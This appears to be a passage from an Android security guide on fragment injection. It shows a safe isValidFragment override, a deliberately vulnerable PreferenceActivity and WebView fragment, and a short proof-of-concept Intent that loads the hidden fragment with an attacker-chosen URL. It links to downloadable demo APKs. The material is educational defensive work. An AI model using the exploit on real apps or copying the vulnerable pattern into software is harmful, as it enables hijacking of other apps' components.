 The following examples show the `isValidFragment` method being overridden with an implementation that allows the loading of `MyPreferenceFragment` only:

```java
@Override
protected boolean isValidFragment(String fragmentName)
{
return "com.fullpackage.MyPreferenceFragment".equals(fragmentName);
}

```

### Example of Vulnerable App and Exploitation

MainActivity.class

```java
public class MainActivity extends PreferenceActivity {
    protected void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);
    }
}
```

MyFragment.class

```java
public class MyFragment extends Fragment {
    public void onCreate (Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);
    }
    public View onCreateView(LayoutInflater inflater, ViewGroup container, Bundle savedInstanceState) {
        View v = inflater.inflate(R.layout.fragmentLayout, null);
        WebView myWebView = (WebView) wv.findViewById(R.id.webview);
        myWebView.getSettings().setJavaScriptEnabled(true);
        myWebView.loadUrl(this.getActivity().getIntent().getDataString());
        return v;
    }
}
```

To exploit this vulnerable Activity, you can create an application with the following code:

```java
Intent i = new Intent();
i.setFlags(Intent.FLAG_ACTIVITY_CLEAR_TASK);
i.setClassName("pt.claudio.insecurefragment","pt.claudio.insecurefragment.MainActivity");
i.putExtra(":android:show_fragment","pt.claudio.insecurefragment.MyFragment");
i.setData(Uri.parse("https://security.claudio.pt"));
startActivity(i);
```

The [Vulnerable App](https://github.com/clviper/android-fragment-injection/raw/master/vulnerableapp.apk "Vulnerable App Fragment Injection") and [Exploit PoC App](https://github.com/clviper/android-fragment-injection/blob/master/exploit.apk "PoC App to exploit Fragment Injection") are available for downloading.
